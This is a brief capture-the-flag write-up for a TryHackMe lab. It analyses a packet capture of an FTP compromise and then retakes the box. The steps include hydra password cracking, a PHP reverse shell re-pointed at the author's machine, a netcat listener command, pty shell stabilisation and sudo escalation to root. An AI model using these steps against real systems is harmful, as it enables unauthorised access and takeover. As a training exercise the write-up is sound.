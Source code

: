 # H4cked THM
Find out what happened by analysing a .pcap file and hack your way back into the machine

### wireshark analysis
- user logged into ftp using user: jenny and password: password123
- uploaded shell.php to /var/www/html
- gained access via reverse shell and downloaded backdoor rootkit Reptile 

### Getting back into the machine
- Using hydra to crack password changed by attacker
	- user: jenny
	- password: 987654321

- Log in using credentials via ftp

- Update shell.php to get reverse shell on my machine
	- get shell.php (ftp command to download file)
	- change ip address on downloaded shell.php (local)
	- put shell.php (ftp command to upload file)

- get reverse shell
	- open netcat listener 
		- nc -lvnp 80
	- visit http://<ip>/shell.php

- stabilize shell
	- python3 -c 'import pty; pty.spawn("/bin/bash")'

- escalate priveleges
	- sudo su jenny using same credentials as above, then
	- sudo su gets root

- flag is in /root/Reptile
